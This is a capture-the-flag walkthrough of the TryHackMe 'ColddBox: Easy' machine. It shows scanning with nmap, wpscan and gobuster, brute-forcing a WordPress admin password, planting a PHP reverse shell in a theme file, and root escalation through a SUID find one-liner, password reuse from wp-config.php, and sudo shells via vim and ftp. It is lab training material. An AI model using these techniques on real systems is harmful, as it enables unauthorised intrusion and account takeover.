





# [ColddBox: Easy](https://tryhackme.com/room/colddboxeasy)

## Getting a shell

First of all, `nmap`

```
# Nmap 7.91 scan initiated Sun Jul 18 06:27:20 2021 as: nmap -vvv -p 80,4512 -sCV -oA init 10.10.200.151
Nmap scan report for box.ip (10.10.200.151)
Host is up, received conn-refused (0.28s latency).
Scanned at 2021-07-18 06:27:21 UTC for 21s

PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 18 06:27:42 2021 -- 1 IP address (1 host up) scanned in 22.07 seconds
```

First we'll check out port 80. Scrolling down, we can see that this is a WordPress site, so let's run `wpscan`.

```
$ wpscan --url http://box.ip/ -t 100 -e ap,at,cb,dbe,u1-10,m1-10 -o wpscan
```

From the scan, you should see that the site is using WordPress version 4.1.31 which is marked as insecure, as well as get a few usernames: "c0ldd", "hugo", "philip", and "the cold in person". Let's make note of the usernames for later.


Let's dir-bust

```sh
$ gobuster dir -u http://box.ip/ -w /path/to/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt

/wp-content           (Status: 301) [Size: 305] [--> http://box.ip/wp-content/]
/wp-includes          (Status: 301) [Size: 306] [--> http://box.ip/wp-includes/]
/wp-admin             (Status: 301) [Size: 303] [--> http://box.ip/wp-admin/]
/hidden               (Status: 301) [Size: 301] [--> http://box.ip/hidden/]
/server-status        (Status: 403) [Size: 271]
```

We have a suspicious `/hidden` directory, so let's check it out.



We see here that the user "c0ldd" seems to be able the change another user's password, meaning they likely have administrative privileges, making them a high-value target. Let's try brute-forcing his password.

```sh
wpscan --url http://box.ip/ -U users -P /path/to/rockyou
```

With this, we have c0ldd's password and can log in. Let's check our current account at `/wp-admin/users.php`.



As Administrator, we can edit a theme file to get Remote Code Execution. [Here](https://dasith.works/wordpress-admin-to-rce/)'s a good article on the exploit.

To exploit, first, we'll edit a theme's PHP file to add our shell and activate the code. In this case, I'll be changing the 404 page. (Replace `10.10.10.10` with your own IP)





After updating the file with a PHP reverse shell, run a listener and go to `/wp-content/themes/{themename}/{fileyouselected}.php` (in my case, `http://box.ip/wp-content/themes/twentyfifteen/404.php`) to activate the payload and get a shell.

## Privilege Escalation

First thing I do after getting a shell is run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh). A few things in the result stand out:

- The user c0ldd is in the groups adm and lxd and has some interesting processes running
- The file `/var/www/html/wp-config.php` has credentials
- `/usr/bin/find` has a SUID bit

### `find` with SUID

The easiest thing here is `find` with a SUID bit. [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) shows us how to escalate with it.

```sh
/usr/bin/find . -exec /bin/bash -p \; -quit
```

### Password re-use

Looking at `/var/www/html/wp-config.php`, we have credentials for the user "c0ldd".

```sh
$ cat /var/www/html/wp-config.php | grep -iP -A 10 -B 10 password

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', REDACTED);
```

With this password, we're able to log into SSH as c0ldd. Running `sudo -l` gives us a few binaries we can run with `sudo`.

 ```sh
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd:
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

- From inside `sudo vim`, we can get a shell by running `:!/bin/bash`
- With `sudo chmod`, we can change file permissions, as well as give `bash` an SUID bit
- Inside `sudo ftp`, we can get a shell with `!/bin/bash`

Additionally, the user c0ldd is in the `lxd` group which we can use to mount everything in `/` and modify them as root which I did in the room [Gaming Server](https://github.com/ChocolateOverflow/tryhackme-writeups/tree/master/gamingserver).
